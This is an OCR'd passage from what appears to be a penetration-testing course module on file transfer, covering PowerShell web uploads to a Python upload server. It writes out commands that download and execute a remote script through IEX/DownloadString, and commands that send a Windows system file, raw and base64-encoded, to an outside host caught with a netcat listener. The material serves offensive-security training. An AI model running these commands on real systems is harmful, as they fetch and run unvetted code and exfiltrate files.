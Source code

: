 ```bash
  echo "IyBDb3B5cmlnaHQgKGMpIDE5OTMtMjAwO ...." | base64 -d > hosts
  md5sum hosts
  # 3688374325b992def12793500307566d  hosts
```

## PowerShell Web Uploads

PowerShell doesn't have a built-in function for upload operations, but we can use `Invoke-WebRequest` or `Invoke-RestMethod` to build our upload function. We'll also need a web server that accepts
uploads, which is not a default option in most common webserver utilities.

For our web server, we can use [uploadserver](https://github.com/Densaugeo/uploadserver), an extended module of the [Python HTTP.server](https://docs.python.org/3/library/http.server.html) module,
which includes a file upload page. Let's install it and start the webserver.

### Installing a Configured WebServer with Upload

```bash
  sudo apt install python3-pip
  pip3 install uploadserver
  python3 -m uploadserver --port 8000 --directory /var/www/html/uploads
```

Now we can use a PowerShell script [PSUpload.ps1](https://github.com/juliourena/plaintext/blob/master/Powershell/PSUpload.ps1) which uses Invoke-RestMethod to perform the upload operations. The script
accepts two parameters `-File`, which we use to specify the file path, and `-Uri`, the server URL where we'll upload our file. Let's attempt to upload the host file from our Windows host.

### PowerShell Script to Upload a File to Python Upload Server

```powershell
  C:\htb> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
  C:\htb> Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```

## PowerShell Base64 Web Upload

```powershell
  C:\htb> $b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
  C:\htb> Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```

We catch the base64 data with Netcat and use the base64 application with the decode option to convert the string to the file.

```bash
  nc -lvnp 8000
    # IyBDb3B5cmlnaHQgKG....
  echo "IyBDb3B5cmlnaHQgKG...." | base64 -d -w 0 > hosts
```
